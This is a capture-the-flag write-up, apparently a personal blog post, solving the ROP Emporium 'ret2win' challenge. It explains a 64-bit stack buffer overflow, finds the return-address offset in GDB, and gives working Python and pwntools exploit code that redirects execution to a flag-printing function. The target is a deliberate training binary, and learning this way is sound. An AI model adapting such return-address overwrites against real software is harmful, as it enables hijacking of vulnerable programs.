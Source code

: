 ```yaml
---
layout: single
title: "RopEmporium - Ret2win"
---
```


I recently came across Rop Emporium and I thought I'd give it a go and post my progress! Let's jump in...

All the challenges are hosted on the website [here](https://ropemporium.com/), there is also a guide with plenty of useful information, tools and techniques that be used during the challenges.

# ret2win

The description for ret2win starts with "ret2win means 'return here to win'" - sounds simple, right?

Running the binary it mentions trying to fit 56 bytes into 32 bytes of stack buffer, whats the problem with this? We know that the stack grows down from higher addresses to lower addresses, and when a function prolog takes place it reserves space on the stack for local variables.

![alt text](https://ben0.github.io/assets/images/ret2win-intro.PNG "Running the binary ret2win")

If we execute the binary with more than 32 characters what'll happen? Let's try with 48 characters...

![alt text](https://ben0.github.io/assets/images/ret2win-overflow.PNG "Overflowing the buffer")

Yep, we overflowed the buffer and caused the binary to segfault. Why? The call to read() accepts upto 56 bytes, which is 24 more than the 32 bytes of variable space allocated. Our input is accepted pushing the data onto the stack, the 'pwnme' function wraps up, and the ret instruction then pops the next 8 bytes off the stack which is 'AAAAAAAA', because this isn't a valid memory address, it segfaults!

When the read() function stores the data on the stack it starts from lower addresses and works to high addresses, overwriting any existing data in memory as it goes...

Before we move on it's handy to enumerate the binary, we'll use NM to understand the symbols or functions within the binary, and Rabin2 to see what mitigations are enabled.

![alt text](https://ben0.github.io/assets/images/ret2win-nm.PNG "Symbols within the binary")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2.PNG "Mitigations")

Within the binary there are a few functions, including one called `ret2win` at address `0x0000000000400756`. This functions contains a `mov edi,0x400943` then `call 400560 <system@plt>`, lets see what string is being moved into edi from address `0x400983` - Rabin2 is great for analysing strings in binaries.

![alt text](https://ben0.github.io/assets/images/ret2win-objdump-ret2win.PNG "Ret2win function disassembled")

![alt text](https://ben0.github.io/assets/images/ret2win-rabin2-strings.PNG "Strings within the binary")

Our objective is to overwrite the return address from pwnme to jump to the symbol `ret2win` rather than jumping back to `main`, then ret2win will execute the command `/bin/cat flag.txt`.

## Exploit

Using GDB it's easy to debug the binary, and experiment with different payloads to understand what's happening.

What we know:

- It's 64bit
- The buffer is 32 bytes and `read()` accepts 56 bytes, meaning a stack overflow can occur
- ASLR is disabled (PIC), the adddresses of our symbols will be the same every time the binary is run

Fire up GDB with the binary, set a breakpoint on the address of pwnme with `break *pwnme`, and run the binary with the command `run < <(python -c "print 'A' * 32 + 'B' * 8 + 'C' * 8")`, then step through a few instructions and we're at the `ret` instruction the which will pop the next address off the stack and try and jump to it.

In the screenshot we can the top of the stacking is pointing `CCCCCCCC` or `0x4343434343434343`, this will be popped off the stack into RIP and executed, though this time it'll segfault. But we know that whatever is in those 41-48 bytes will end up in the instruction register.

![alt text](https://ben0.github.io/assets/images/ret2win-gdb-pwnme.PNG "Pwnme function - GDB")

### Method 1 - Python

`python -c "print 'A' * 32 + 'B' * 8 + '\x00\x00\x00\x00\x00\x40\x07\x56'[::-1]" | ./ret2win`

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Python to win")

### Method 2- Pwntools

```
from pwn import *

context.arch = 'amd64'

elf = ELF("ret2win")

pwnme_symbol = p64(elf.symbols["ret2win"])

payload = b"a" * 40
payload += pwnme_symbol

io = elf.process()
io.sendline(payload)
data = io.recvall()
print(data)
```

![alt text](https://ben0.github.io/assets/images/ret2win-method1.PNG "Using Pwntools to win")
